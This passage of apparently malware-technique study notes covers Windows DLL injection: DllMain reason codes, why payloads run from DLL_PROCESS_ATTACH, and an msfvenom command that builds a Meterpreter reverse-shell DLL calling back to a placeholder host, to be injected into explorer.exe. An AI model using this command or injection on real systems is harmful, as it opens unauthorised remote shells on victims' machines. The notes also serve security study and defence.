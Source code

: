 ### `fdwReason` values:

- `DLL_PROCESS_ATTACH` → DLL loaded into a process.
- `DLL_THREAD_ATTACH` → new thread created.
- `DLL_THREAD_DETACH` → thread exits.
- `DLL_PROCESS_DETACH` → process unloads DLL.

**Malware trick:** Place shellcode inside the `DLL_PROCESS_ATTACH` case → executed immediately after the DLL is loaded by `LoadLibrary`.

Example:

```c
BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

---

## 4. Restrictions & Considerations

1. **Managed vs. Unmanaged DLLs**
    - Managed DLLs (C#, .NET) cannot be injected into an unmanaged process.
    - Injection relies on `LoadLibrary`, which expects **native DLLs (C/C++)**.
2. **Exported APIs**
    - DLLs normally contain APIs that are called after the DLL is loaded.
    - Normally, DLLs expose functions accessed with `GetProcAddress`.
    - But since `GetProcAddress` cannot be used across process boundaries, malicious DLLs typically execute payload directly from `DllMain`.
3. **Target DLL format**
    - Must be an **unmanaged DLL** written in C/C++ or generated by a framework like **Metasploit’s msfvenom**.

---

## 5. Example: Generating a Malicious DLL

Using Metasploit:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o inject.dll
```

- Payload is embedded into DLL’s entry point.
- Inject this DLL into `explorer.exe` using the injection technique above.
- On load (`DLL_PROCESS_ATTACH`), payload executes and gives reverse shell.

---